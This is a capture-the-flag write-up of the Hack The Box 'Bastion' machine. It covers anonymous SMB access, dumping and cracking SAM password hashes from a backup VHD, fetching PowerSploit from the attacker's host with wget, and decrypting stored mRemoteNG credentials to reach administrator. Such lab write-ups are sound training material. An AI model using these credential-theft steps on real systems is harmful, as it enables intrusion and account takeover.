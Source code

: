 ```yaml
---
layout: post
title:  "HTB - Bastion"
date:   2019-09-06 20:00 +0100
tags: writeups
---
```

Link: https://www.hackthebox.eu/home/machines/profile/186
IP: 10.10.10.134

<!--more-->

## Recon

```
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## SMB
The host has anonymous SMB with disabled message signing, so let's have a look at that.  
Let's begin with some recon:  
`msf5 > use auxiliary/scanner/smb/pipe_auditor`  
This yields some interesting endpoints: 
```
[+] 10.10.10.134:445      - Pipes: \netlogon, \lsarpc, \samr, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \LSM_API_service, \ntsvcs, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc

```
`msf5 > use auxiliary/scanner/smb/smb_enumshares`
```
[-] 10.10.10.134:139      - Login Failed: Unable to Negotiate with remote host
[+] 10.10.10.134:445      - ADMIN$ - (DISK) Remote Admin
[+] 10.10.10.134:445      - Backups - (DISK) 
[+] 10.10.10.134:445      - C$ - (DISK) Default share
[+] 10.10.10.134:445      - IPC$ - (IPC) Remote IPC
```
So let's look into the shares.
First, let's mount the Backups share:  
`sudo mount -t cifs -o user=guest //10.10.10.134/Backups /mnt/`
There's a Backup of a full client machine at `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351`.  
Could be worth a shot for NTLM hashes :3


## The Backup
So copy that VHD (in case someone resets the box while you're snooping around) and mount it with  
`sudo guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/guest/`

Next up: dumping the NTHash for the user. That can be done by copying SAM and SYSTEM from `C:\Windows\system32\config\`  
and then calling pwdump on it:  
```
apalax@raudfjorden:~/writeups/HTB/Labs/Bastion$ pwdump SYSTEM SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```
The syntax for these hashes is `username:id:LM-Hash:NT-Hash`. Let's try them by throwing these into `hashes.txt` and feeding it to john:  
```
john --format=nt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-09-05 19:36) 2.222g/s 10439Kp/s 10439Kc/s 10444KC/s burg772v..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
So it seems we have a user login / password combination.  
If we connect via SSH, we're dropped into a CMD (?).  
`user.txt` can be found at the desktop and printed with `type user.txt`.


## Road to root
Basically, I'm following this article: https://www.fuzzysecurity.com/tutorials/16.html    
We're making use of Matt Graebers excellent tool, Powersploit. 

Get PowerSploit
`wget http://10.10.15.195:8000/PowerSploit-3.0.0.zip -OutFile ps.zip`
In more detail, PowerUp. So download the Privesc folder into the PS Module path, import the module and fire away!  
```
Import-Module Privesc
Get-Command -Module Privesc
    <available commands>
Invoke-AllChecks
    <stuff stuff>
    (...)

[*] Checking %PATH% for potentially hijackable .dll locations...                                           


HijackablePath : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\                                      
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll' -Command '...'    
```
Not working?

Poking around shows an SSH config file with this: 
```
Match Group administrators                                                                       
       AuthorizedKeysFile __PROGRAMDATA__/ssh/administrators_authorized_keys 
```
unfortunately, we don't have write access to that folder as user, so keep looking!

### Ze RemoteNG?!
Poking around more reveals mRemoteNG, which seems off. Googling around reveals that it suffers from insecure password storage.  
So let's grab the connection.xml:
```
PS C:\Users\L4mpje\AppData\Roaming\mRemoteNG> type .\confCons.xml
```
We try to decrypt it with [mremoteng-decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).  
This is done by providing the decrypter the administrator password hash:  
```
python mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
Password: thXLHM96BeKL0ER2
```

So this is root! Connect, `cd` to Desktop and `type root.txt`. Fun box, but root and Windows enum took me a while.
